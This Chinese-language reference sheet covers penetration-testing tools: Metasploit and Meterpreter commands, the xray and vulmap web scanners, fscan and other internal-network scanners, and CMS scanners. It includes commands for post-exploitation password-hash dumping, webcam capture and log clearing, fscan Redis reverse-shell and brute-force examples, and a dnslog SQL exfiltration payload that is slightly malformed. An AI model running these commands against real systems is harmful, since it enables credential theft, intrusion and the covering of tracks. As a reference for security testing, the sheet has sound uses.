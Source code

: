 综合框架
----------------------------------------

漏洞检测
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ metasploit
	- Terminal下msf常用命令简介
		+ 打开msf终端：``msfconsole``
		+ msf数据库初始化：``msfdb init``
		+ msf更新：``apt install metasploit framework``
		+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
	- msf终端下常用命令简介
		+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
		+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
		+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
		+ 显示命令的帮助信息：``help [db_connect]``
		+ 搜索含有关键字的模块：``search [module]``
		+ 选择模块：``use [module]``
		+ 显示模块支持的payload：``show payload``
		+ 显示模块参数：``show options``
		+ info详情：``info``
		+ 设置取消参数：``set/unset [opt]``
		+ 设置取消全局参数：``setg/unsetg [opt]``
		+ 返回上级状态：``back``
		+ 运行攻击模块：``exploit/run``
		+ 查看当前连接会话：``sessions``
	- meterpreter后渗透利用
		+ 打印当前工作目录：``pwd``
		+ 查看系统信息：``sysinfo``
		+ 查看当前目标机上运行的进程列表和pid：``ps``
		+ 调用相机拍摄照片：``webcam_snap``
		+ 运行vnc远程查看屏幕：``run vnc``
		+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
		+ 截取目标主机当前屏幕​：``screenshot``
		+ 获取当前权限的用户id：``getuid``
		+ 获取system权限：``getsystem``
		+ 获取用户名与hash口令：``hashdump``
		+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
		+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
		+ 上传一个文件：``upload``
		+ 下载一个文件：``download``
		+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
		+ 清除日志：``clearev``
		+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
	- meterpreter内网渗透
		+ 获取目标主机上的子网状态：``run get_local_subnets``
		+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
		+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
		+ 查看当前的路由表：``run autoroute -p``
		+ 扫描内网存活主机：``db_nmap``
		+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
		+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

+ vulmap【web】
	- 项目地址：``https://github.com/zhzyker/vulmap``
	- 安装
			::
			
				git clone https://github.com/zhzyker/vulmap.git
				pip3 install -r requirements.txt
				
	- 基本用法：``python3 vulmap.py -u http://example.com``

+ xray【web】
	- 全局配置
		+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
		+ --log_level 用于指定全局的日志配置
		+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
	- reverse命令
		+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
	- genca
		+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
	- subdomain
		+ 子域名扫描
		+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
		+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
	- webscan
		+ 扫描web漏洞，核心功能
		+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
			- ``--plugins xss --plugins xss,sqldet,phantasm``
		+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
			- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
			- ``--plugins phantasm --poc "*thinkphp*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
		+ 配置输入来源
			- --listen 
				+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
			- --basic-crawler 
				+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
			- --url 
				+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
			- --raw-request 
				+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
		+ 输出方式
			- --html-output 将结果输出为 html 报告, 报告样例
			- --webhook-output 将结果发送到一个地址
			- --json-output 将结果输出到一个 json 文件中
		+ 示例
			- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
			- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

综合
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ARL 资产侦察灯塔系统
	::

		git clone https://github.com/TophantTechnology/ARL
		cd ARL/docker/
		docker volume create arl_db
		docker-compose pull
		docker-compose up -d 
		
		默认端口5003 (https), 默认用户名密码admin/arlpass

+ ShuiZe_0x727
	- 项目：``https://github.com/0x727/ShuiZe_0x727``
	- 协助红队人员快速的信息收集，测绘目标资产，寻找薄弱点。
	- 全方位收集相关资产，并检测漏洞。也可以输入多个域名、C段IP等。
+ LiqunKit
	- 项目：``https://github.com/Liqunkit/LiqunKit_``
	- 漏洞辅助工具箱，包含致远OA，泛微OA，万户OA，蓝凌OA，用友OA，通达OA，weblogic，struts2，thinkphp，shiro，数据库综合。

+ fscan
	- 项目地址：``https://github.com/shadow1ng/fscan``
	- 示例
		::
		
			fscan.exe -h 192.168.1.1/24  (默认使用全部模块)  
			fscan.exe -h 192.168.1.1/16  (B段扫描)
			fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
			fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
			fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
			fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
			fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
			fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
			fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
			fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
			fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
			fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
			fscan64.exe -h 10.10.180.0-10.10.180.255 -p 445 -sc ms17|findstr "MS17-010"（指定模块）
			fscan.exe -hf ip.txt  (以文件导入)
+ Template 
	+ 项目地址：https://github.com/1n7erface/Template
+ goon
	- 项目地址：``https://github.com/i11us0ry/goon``
	- goon,集合了fscan和kscan等优秀工具功能的扫描爆破工具。
	- 功能包含：ip探活、port扫描、web指纹扫描、title扫描、fofa获取、ms17010、mssql、mysql、postgres、redis、ssh、smb、rdp、telnet等爆破以及如netbios探测等功能。
+ Railgun
	- 项目地址：``https://github.com/lz520520/railgun``
	- Railgun为一款GUI界面的渗透工具，将部分人工经验转换为自动化，集成了渗透过程中常用到的一些功能，目前集成了端口扫描、端口爆破、web指纹扫描、漏洞扫描、漏洞利用以及编码转换功能，后续会持续更新。
+ SweetBabyScan
	- 项目地址：``https://github.com/inbug-team/SweetBabyScan``
	- 轻量级内网资产探测漏洞扫描工具，支持弱口令爆破的内网资产探测漏洞扫描工具，集成了Xray与Nuclei的Poc


特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell


带外数据监控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ dnslog
	- 利用场景
		+ Sql-Blind
		+ RCE
		+ SSRF
		+ RFI（Remote File Inclusion）
	- 原理
		将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
	- 限制
		load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
	- 示例
		+ ``select load_file('\\\\',version(),'.dnslog地址')``
+ ceye.io
	- http://ceye.io/profile中记录了个人的Identifier
	- 可以请求任何http文件
	- dns请求记录

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
